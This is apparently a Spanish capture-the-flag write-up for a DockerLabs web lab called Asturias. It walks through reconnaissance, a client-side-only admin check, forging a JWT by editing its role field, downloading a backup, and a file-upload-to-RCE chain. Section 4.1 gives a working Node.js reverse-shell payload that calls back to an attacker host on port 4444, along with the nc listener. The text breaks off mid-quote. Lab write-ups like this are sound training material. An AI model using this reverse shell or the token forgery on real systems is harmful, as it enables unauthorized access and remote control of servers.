










<h1 align="center">[Writeup] Asturias - Reporte de Vulnerabilidad</h1>

---

**Dificultad:** Medio (★★★★☆☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales / Ejecución de Código (RCE)  / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 20-10-2026

**Plataforma:** DockerLabs.es

---


<h1 align="center">Descripción</h1>

"Laboratorio vulnerable con endpoints desprotegidos y una vulnerabilidad que corre en el lado del servidor que permite un RCE."

---
<h1 align="center">1. Reconocimiento</h1>

## 1.1. Escaneo Nmap:

```bash
nmap -sV -sC -p- --min-rate 5000 172.17.0.2 -oN scan_asturias.txt
```
 
 **Resultados:**
```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-19 22:01 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000016s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Asturias Viajes \xC2\xB7 El Para\xC3\xADso Natural te espera
MAC Address: 2A:11:3E:01:23:A0 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.69 seconds 
```

## 1.2. Enumeración Web

Se realiza la enumeración web mediante la herramienta GoBuster, con el siguiente comando:
```bash
gobuster dir -u http://172.17.0.2:3000 -w /usr/share/wordlists/dirb/common.txt  -x html,php,txt,bak,js,db --exclude-length 6327
```

Dándonos como resultado:
```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:3000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] Exclude Length:          6327
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,php,txt,bak,js,db
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
admin.html           (Status: 200) [Size: 5907]
css                  (Status: 301) [Size: 153] [--> /css/]
dashboard.html       (Status: 200) [Size: 4656]
galeria.html         (Status: 200) [Size: 5872]
images               (Status: 301) [Size: 156] [--> /images/]
js                   (Status: 301) [Size: 152] [--> /js/]
login.html           (Status: 200) [Size: 2259]
registro.html        (Status: 200) [Size: 2690]
tour.html            (Status: 200) [Size: 7018]
tours.html           (Status: 200) [Size: 3379]
uploads              (Status: 301) [Size: 157] [--> /uploads/]
Progress: 32291 / 32291 (100.00%)
===============================================================
Finished
===============================================================
```

# Hallazgo 1 (Código Fuente Servidor)

Al revisar el primer "vector" al que pudieramos afectar (172.17.0.2:3000/admin.html), por un milisegundo logramos ver una pantalla de administración, por lo que al enviar la misma petición en BurpSuite, logramos ver el siguiente código web:

```html
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Sun, 27 Sep 2026 16:57:38 GMT
ETag: W/"1713-1a0e3ccffd0"
Content-Type: text/html; charset=UTF-8
Content-Length: 5907
Date: Tue, 20 Oct 2026 01:10:37 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Panel de administración · Asturias Viajes</title>
  <link rel="stylesheet" href="/css/style.css" />
</head>
<body>
  <div class="page-header">
    <div class="container">
      <h1>Panel de administración</h1>
      <p>Estadísticas del portal, usuarios registrados y mantenimiento del sistema.</p>
    </div>
  </div>

  <section>
    <div class="container">
      <div class="stat-cards">
        <div class="stat-card"><div class="stat-value" id="stat-users">–</div><div class="stat-label">Usuarios</div></div>
        <div class="stat-card"><div class="stat-value" id="stat-bookings">–</div><div class="stat-label">Reservas</div></div>
        <div class="stat-card"><div class="stat-value" id="stat-revenue">–</div><div class="stat-label">Ingresos totales</div></div>
        <div class="stat-card"><div class="stat-value" id="stat-top">–</div><div class="stat-label">Excursión más popular</div></div>
      </div>

      <div class="tabs">
        <button class="tab-btn active" data-tab="users">Usuarios</button>
        <button class="tab-btn" data-tab="bookings">Todas las reservas</button>
        <button class="tab-btn" data-tab="system">Sistema</button>
      </div>

      <div class="panel active" id="panel-users">
        <table class="data-table">
          <thead><tr><th>ID</th><th>Nombre</th><th>Email</th><th>Rol</th><th>Teléfono</th><th>Alta</th></tr></thead>
          <tbody id="users-body"></tbody>
        </table>
      </div>

      <div class="panel" id="panel-bookings">
        <table class="data-table">
          <thead><tr><th>ID</th><th>Cliente</th><th>Excursión</th><th>Personas</th><th>Fecha viaje</th><th>Total</th><th>Estado</th></tr></thead>
          <tbody id="admin-bookings-body"></tbody>
        </table>
      </div>

      <div class="panel" id="panel-system">
        <div class="admin-danger-zone">
          <h3>Copia de seguridad del sistema</h3>
          <p>
            Genera un archivo .zip con la base de datos y el código fuente completo de la aplicación,
            pensado para tareas de mantenimiento o migración a otro servidor.
          </p>
          <button class="btn btn-primary" id="backup-btn">Generar backup completo (.zip)</button>
          <div id="backup-status" style="margin-top:14px;"></div>
        </div>
      </div>
    </div>
  </section>

  <script src="/js/app.js"></script>
  <script>
    if (!Auth.isLoggedIn() || !Auth.isAdmin()) {
      window.location.href = '/index.html';
    }

    document.querySelectorAll('.tab-btn').forEach(btn => {
      btn.addEventListener('click', () => {
        document.querySelectorAll('.tab-btn').forEach(b => b.classList.remove('active'));
        document.querySelectorAll('.panel').forEach(p => p.classList.remove('active'));
        btn.classList.add('active');
        document.getElementById(`panel-${btn.dataset.tab}`).classList.add('active');
      });
    });

    async function loadAdmin() {
      try {
        const stats = await apiFetch('/admin/stats');
        document.getElementById('stat-users').textContent = stats.totalUsers;
        document.getElementById('stat-bookings').textContent = stats.totalBookings;
        document.getElementById('stat-revenue').textContent = formatCurrency(stats.totalRevenue);
        document.getElementById('stat-top').textContent = stats.topTours[0] ? stats.topTours[0].title : '—';
      } catch (e) { console.error(e); }

      try {
        const { users } = await apiFetch('/admin/users');
        document.getElementById('users-body').innerHTML = users.map(u => `
          <tr>
            <td>${u.id}</td><td>${u.name}</td><td>${u.email}</td>
            <td><span class="badge">${u.role}</span></td>
            <td>${u.phone || '—'}</td><td>${formatDate(u.created_at)}</td>
          </tr>
        `).join('');
      } catch (e) { console.error(e); }

      try {
        const { bookings } = await apiFetch('/admin/bookings');
        document.getElementById('admin-bookings-body').innerHTML = bookings.map(b => `
          <tr>
            <td>${b.id}</td><td>${b.user_name}<br><small style="color:#8a978f;">${b.user_email}</small></td>
            <td>${b.tour_title}</td><td>${b.num_people}</td><td>${formatDate(b.travel_date)}</td>
            <td>${formatCurrency(b.total_price)}</td><td>${b.status}</td>
          </tr>
        `).join('');
      } catch (e) { console.error(e); }
    }

    document.getElementById('backup-btn').addEventListener('click', async () => {
      const statusBox = document.getElementById('backup-status');
      const btn = document.getElementById('backup-btn');
      btn.disabled = true;
      btn.innerHTML = '<span class="spinner"></span> Generando backup...';
      statusBox.innerHTML = '';

      try {
        const token = Auth.getToken();
        const res = await fetch('/api/admin/backup', {
          headers: { Authorization: `Bearer ${token}` },
        });
        if (!res.ok) throw new Error(`Error ${res.status} generando el backup.`);
        const blob = await res.blob();
        const url = window.URL.createObjectURL(blob);
        const a = document.createElement('a');
        a.href = url;
        a.download = `asturias-viajes-backup-${new Date().toISOString().slice(0,10)}.zip`;
        document.body.appendChild(a);
        a.click();
        a.remove();
        window.URL.revokeObjectURL(url);
        statusBox.innerHTML = `<div class="alert alert-success">Backup descargado correctamente.</div>`;
      } catch (err) {
        statusBox.innerHTML = `<div class="alert alert-error">${err.message}</div>`;
      } finally {
        btn.disabled = false;
        btn.textContent = 'Generar backup completo (.zip)';
      }
    });

    loadAdmin();
  </script>
</body>
</html>
```

## Hallazgos en el código:

- ### **Broken Access Control** (Control de Acceso): 

En nuestro primer hallazgo nos encontramos con el código de `/admin.html`, una página de administración que no cuenta con ningún tipo de verificación del lado del servidor. El servidor entrega el HTML completo de la página a cualquier solicitante, sin validar sesión ni rol. La única autenticación ocurre en el navegador, mediante el siguiente bloque de JavaScript, que se ejecuta recién después de que el HTML ya fue renderizado por completo:

```javascript
if (!Auth.isLoggedIn() || !Auth.isAdmin()) {
  window.location.href = '/index.html';
}
```

Esto provoca que, al visitar la página sin sesión de administrador, el contenido se muestre brevemente antes de que el script redirija de vuelta al inicio. Esta ventana de tiempo es suficiente para capturar la respuesta completa con un proxy de interceptación (en nuestro caso, Burp Suite), evitando por completo la verificación client-side, que nunca llega a ejecutarse desde la perspectiva del servidor.

Esta falla corresponde a la categoría de **Broken Access Control**: el control de acceso depende enteramente de lógica ejecutada en un entorno que el atacante controla (el navegador), en vez de ser validado en el servidor, que es el único lugar donde una verificación de este tipo puede considerarse confiable.

- ### **Information Disclosure (Divulgación de información) Número 1**

Durante la revisión del código fuente de /admin.html, identificamos una divulgación de información relevante: el propio JavaScript de la página revela la existencia del endpoint /api/admin/backup, el método de autenticación esperado (Authorization: Bearer token) y el propósito funcional del mismo (generación de una copia completa de la base de datos y el código fuente). 

```javascript

        const token = Auth.getToken();
        const res = await fetch('/api/admin/backup', {
          headers: { Authorization: `Bearer ${token}` },
        });
```

Esta información, obtenida mediante revisión de código del lado del cliente, nos permite dirigir el siguiente paso de explotación sin necesidad de fuzzing adicional.

El acceso al código de /admin.html nos permitió conocer la existencia del panel y su endpoint de backup sin necesidad de autenticación real. Sin embargo, para obtener una sesión funcional con privilegios reales de administrador —y así poder interactuar con el panel de forma legítima en vez de solo capturar su respuesta HTML— exploramos un segundo vector: la manipulación del token JWT emitido durante el registro de usuario.

---

<h1 align="center">2. Inspección WEB</h1>

## 2.1. Obtención de Privilegios de Administración Web



---
Durante la exploración de la web, identificamos un apartado de registro de usuarios. Procedimos a crear una cuenta normal para analizar el funcionamiento del sistema de autenticación.



Al iniciar sesión, el servidor responde con un token JWT (JSON Web Token), utilizado por la aplicación para autenticar las siguientes peticiones. Un JWT está compuesto por tres partes separadas por puntos (header.payload.signature), donde tanto el header como el payload están codificados en Base64 — no encriptados, por lo que cualquiera puede decodificarlos y leer su contenido sin necesidad de ninguna clave.

Al decodificar el payload de nuestro token, obtuvimos:
```json
{
"sub":56,
"email":"test@gmail.com",
"role":"user",
"name":"test",
"iat":1792461927,
"exp":1792490727
}
```



Dado que el payload es editable sin restricciones (solo hace falta volver a codificarlo en Base64), modificamos manualmente el campo role de "user" a "admin", reconstruyendo el token con el nuevo payload pero manteniendo header y signature originales:

```json
{
"sub":56,
"email":"test@gmail.com",
"role":"admin",
"name":"test",
"iat":1792461927,
"exp":1792490727
}
```

Al utilizar este token modificado para acceder a rutas protegidas del panel de administración, el servidor **aceptó la petición como válida**, otorgándonos acceso con privilegios de administrador.


Y así es como, llegamos a ser administrador y tal y como en el hallazgo anterior en el código (backup), podemos obtener un archivo .zip, con datos sensibles de la pagina/base de datos.

Esto indica que el servidor no está validando correctamente la firma del JWT, o bien que, aunque valide la firma, no está verificando el rol contenido en el token contra el rol real almacenado en la base de datos para esa sesión. En cualquiera de los dos casos, el resultado es el mismo: cualquier usuario registrado puede autoescalarse a administrador editando un campo de texto plano, sin necesidad de conocer ninguna clave secreta ni explotar una falla criptográfica — es, en esencia, un fallo de control de acceso roto a nivel de autorización (Broken Access Control / Improper Authorization), consecuencia de confiar en datos que el propio cliente puede manipular.

Este hallazgo conecta directamente con lo identificado en la **sección anterior**: mientras que la revisión del código de **/admin.html** nos permitió conocer la existencia del endpoint **/api/admin/backup** sin necesidad de autenticación real, este segundo vector nos permite obtener una sesión funcional y legítima con privilegios de administrador, habilitando no solo la lectura pasiva del panel sino la interacción completa con él — incluyendo la descarga real del backup, que documentamos en la siguiente sección.



---

<h1 align="center">3. Explotación</h1>

# **3.1. Divulgación y explotación del backup**

Al revisar el archivo descargado mediante **"Generar backup completo (.zip)"**, nos damos cuenta que contenía, tanto una base de datos completa del sistema, como la misma infraestructura de la página web:
```bash
├── database
│   └── asturias.db
└── source
    ├── openapi.json
    ├── package.json
    ├── public
    │   ├── admin.html
    │   ├── css
    │   │   └── style.css
    │   ├── dashboard.html
    │   ├── destino.html
    │   ├── destinos.html
    │   ├── galeria.html
    │   ├── images
    │   │   ├── aviles.jpg
    │   │   ├── cabo-penas.jpg
    │   │   ├── covadonga.jpg
    │   │   ├── cudillero.jpg
    │   │   ├── gallery
    │   │   │   ├── acuario.jpg
    │   │   │   ├── atardecer.jpg
    │   │   │   ├── botero.jpg
    │   │   │   ├── cabrales.jpg
    │   │   │   ├── fabada.jpg
    │   │   │   ├── horreo.jpg
    │   │   │   ├── kayak.jpg
    │   │   │   ├── senderismo.jpg
    │   │   │   └── telecabina.jpg
    │   │   ├── gijon.jpg
    │   │   ├── gulpiyuri.jpg
    │   │   ├── hero-picos.jpg
    │   │   ├── hero-ribadesella.jpg
    │   │   ├── llanes.jpg
    │   │   ├── oviedo.jpg
    │   │   ├── picos-de-europa.jpg
    │   │   ├── ribadesella.jpg
    │   │   ├── sidra.jpg
    │   │   ├── somiedo.jpg
    │   │   └── taramundi.jpg
    │   ├── index.html
    │   ├── js
    │   │   └── app.js
    │   ├── login.html
    │   ├── registro.html
    │   ├── tour.html
    │   ├── tours.html
    │   └── uploads
    │       └── gallery
    │           ├── 1792464343063-0211a5035699.jpg
    │           ├── 1792464343066-0761c4fe5be8.jpg
    │           ├── 1792464343069-90c0bd089ebf.jpg
    │           ├── 1792464343071-ecef6317f042.jpg
    │           ├── 1792464343077-41426daa2706.jpg
    │           ├── 1792464343083-3d9f3687f6b6.jpg
    │           ├── 1792464343086-295f329aecdd.jpg
    │           ├── 1792464343089-b0499b46935f.jpg
    │           ├── 1792464343093-321b254a54f6.jpg
    │           ├── 1792464343101-fc73a0af8ca6.jpg
    │           ├── 1792464343105-9c1eb04990a6.jpg
    │           ├── 1792464343108-555c4ee45aee.jpg
    │           ├── 1792464343112-e8adf7a19589.jpg
    │           ├── 1792464343115-fe676b2600e6.jpg
    │           ├── 1792464343118-fdd636da48d2.jpg
    │           ├── 1792464343125-39b14ba6d55d.jpg
    │           ├── 1792464343128-bbf4edf85057.jpg
    │           ├── 1792464343131-21516a808578.jpg
    │           ├── 1792464343135-32c8af20d41e.jpg
    │           ├── 1792464343137-ba6ce4a208d2.jpg
    │           └── 1792464343141-ec67b2345132.jpg
    ├── server.js
    └── src
        ├── db.js
        ├── middleware
        │   └── auth.js
        ├── routes
        │   ├── admin.js
        │   ├── auth.js
        │   ├── bookings.js
        │   ├── destinations.js
        │   ├── gallery.js
        │   ├── invoices.js
        │   └── tours.js
        └── seed.js
```

por lo que se nos fue fácil averiguar que usuarios habían registrados en la página, no así resolver las contraseñas:


Este tipo de contraseñas **bcrypt (```$2a$10$```)** Estan diseñadas para ser lentas por el factor de costo, en este caso ```$10$``` indica cuántas iteraciones del algoritmo se aplican. No es lineal: el costo real es `2^10` = 1024 rondas internas. Por ejemplo, para una GPU moderna que puede calcular miles de millones de hashes MD5 por segundo, con bcrypt a factor costo 10, esa misma GPU solo calcula unos pocos miles. Además del factor **salt** que invalida tablas precalculadas (Rainwbow tables).

En conclusion, la combinación de un factor de costo alto y un salt único por registro hace que un ataque de fuerza bruta o diccionario contra estos hashes sea computacionalmente costoso, incluso usando hardware especializado (GPUs). En la práctica, el éxito de un ataque de este tipo depende casi enteramente de la **fortaleza de la contraseña original**, no de una debilidad del algoritmo de hashing en sí: contraseñas débiles o presentes en diccionarios comunes (como `rockyou.txt`) siguen siendo vulnerables, mientras que contraseñas largas y aleatorias permanecen prácticamente inquebrantables incluso con tiempo de cómputo extendido.

## 3.2. Exploración de la estructura del sistema (src)

Antes de revisar todo, es necesario, decir que se intentó subir imágenes con diferentes payloads, ya que se observo que el sistema solo valida el "mimetype" y por lo tanto es falsificable.

Dado lo anterior revisé el archivo **gallery.js** obteniendo pistas claras de como funciona la vulnerabilidad en esta página con texto propiamente del archivo:
```javascript
/**
 * FALLO INTENCIONAL DEL LABORATORIO (CWE-434: carga de archivos sin restricciones).
 *
 * El filtro se apoya en `file.mimetype`, que no es más que el encabezado
 * `Content-Type` de la parte del formulario multipart: lo elige el cliente y
 * nunca se compara con los bytes reales. Además:
 *   1. No se valida la extensión: se conserva la del nombre enviado.
 *   2. No se valida la firma binaria (magic bytes) del archivo.
 *   3. El archivo se guarda dentro del webroot (`public/`), así que además
 *      queda accesible en `/uploads/gallery/<archivo>`.
 * Un `shell.js` declarado como `Content-Type: image/jpeg` se acepta y se guarda
 * con extensión `.js`.
 */
 ---
 /**
 * FALLO INTENCIONAL DEL LABORATORIO (CWE-94 encadenado con CWE-434 → RCE).
 *
 * El enlace "Ver original" de la galería pasa por aquí. Antes de devolver el
 * archivo, el visor lo carga como módulo de Node para leer sus metadatos, sin
 * comprobar ni la extensión ni el contenido. Una foto `.js` subida con el
 * `Content-Type` falsificado se ejecuta dentro del proceso del servidor cada vez
 * que un visitante hace clic. La ruta es pública: no hace falta estar
 * autenticado para activarla, basta con abrir la galería y hacer clic.
 */
```

---
<h1 align="center">4. Acceso</h1>

# 4.1. Payload y acceso inicial

Teniendo claro esto, armamos nuestro payload:

```javascript
const net = require('net');
const { spawn } = require('child_process');

const client = new net.Socket();
client.connect(4444, '172.17.0.1', () => {
  const sh = spawn('/bin/sh', ['-i']);
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
});
client.on('error', () => {});
```

Solo toca guardarlo como **shell.js** y enviarlo, yo lo hice mediante BurpSuite:


Cambiamos de "application/javascript" a "image/jpeg" para que sea aceptada. Ahora nos dirijimos a nuestra shell local (máquina atacante) y ponemos nuestra shell a la escucha en el puerto configurado:
```bash
nc -lvnp 4444
```

y tal y como decía el texto:

```javascript
 /**
 * FALLO INTENCIONAL DEL LABORATORIO (CWE-94 encadenado con CWE-434 → RCE).
 *
